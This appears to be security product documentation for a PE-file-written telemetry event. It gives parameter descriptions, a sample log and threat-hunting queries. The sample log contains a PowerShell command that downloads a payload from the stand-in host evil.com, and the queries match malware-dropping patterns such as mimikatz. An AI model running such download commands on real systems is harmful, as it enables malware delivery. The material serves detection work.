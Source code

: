## PeFileWrittenDetectInfo Table: PE File Written Detection Event

### 1. Table Name
**PeFileWrittenDetectInfo**

---

### 2. Table Usage
This event is generated when a Portable Executable (PE) file, such as an .exe or .dll, is written to disk. This is a critical event for threat hunting, as it often signifies malware being dropped, an attacker staging tools, or "living-off-the-land" techniques where legitimate utilities are written to disk for malicious purposes. This event provides rich context about the file that was written and the process that wrote it.

---

### 3. Important Parameter Description

| Parameter | Description | Platforms Affected |
|---|---|---|
| ImageFileName | The full path of the PE file that was written to disk. | Windows Only |
| WritingProcessId | The Process ID of the process that wrote the PE file. | Windows Only |
| WritingProcessImageFileName | The name of the process that wrote the PE file. | Windows Only |
| WritingProcessCommandLine | The command line of the process that wrote the PE file. | Windows Only |
| ParentOfWritingProcessImageFileName | The name of the parent process of the writing process. | Windows Only |
| ParentOfWritingProcessCommandLine | The command line of the parent of the writing process. | Windows Only |
| OriginalFilename | The original filename of the PE file, extracted from its version information resource. | Windows Only |
| CompanyName | The company name from the PE file's version information. | Windows Only |
| FileVersion | The file version from the PE file's version information. | Windows Only |
| ImageSubsystem | The subsystem required to run the PE file, such as GUI (`2`) or CUI (`3`). | Windows Only |
| ModuleCharacteristics | A bitmask of flags indicating the characteristics of the PE file, such as if it's an executable (`2`) or a DLL (`8192`). | Windows Only |

---

### 4. Sample Log Example

```json
{
  "ImageFileName": "C:\\Users\\admin\\AppData\\Local\\Temp\\malicious.exe",
  "WritingProcessId": "4580",
  "WritingProcessImageFileName": "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe",
  "WritingProcessCommandLine": "powershell -c \"(New-Object Net.WebClient).DownloadFile('[http://evil.com/payload.exe](http://evil.com/payload.exe)', 'malicious.exe')\"",
  "ParentOfWritingProcessImageFileName": "C:\\Windows\\System32\\cmd.exe",
  "ParentOfWritingProcessCommandLine": "cmd.exe /c powershell...",
  "OriginalFilename": "payload.exe",
  "CompanyName": "Evil Corp",
  "FileVersion": "1.0.0.1",
  "ImageSubsystem": "2",
  "ModuleCharacteristics": "2"
}
```
---

### 5. Example Queries
```xql
// Find all PE file write detection events
event_simpleName=PeFileWrittenDetectInfo

// Hunt for PE files written by scripting engines like PowerShell or WScript
event_simpleName=PeFileWrittenDetectInfo WritingProcessImageFileName IN ("*\\powershell.exe", "*\\wscript.exe", "*\\cscript.exe")

// Find PE files being written to suspicious locations like Temp or Public user directories
event_simpleName=PeFileWrittenDetectInfo ImageFileName="*\\Temp\\*" OR ImageFileName="*\\Users\\Public\\*"

// Search for PE files written by a parent process of an Office application, which can indicate macro-based attacks
event_simpleName=PeFileWrittenDetectInfo ParentOfWritingProcessImageFileName IN ("*\\winword.exe", "*\\excel.exe")

// Find PE files with a specific original filename, regardless of what they were renamed to
event_simpleName=PeFileWrittenDetectInfo OriginalFilename="mimikatz.exe"
```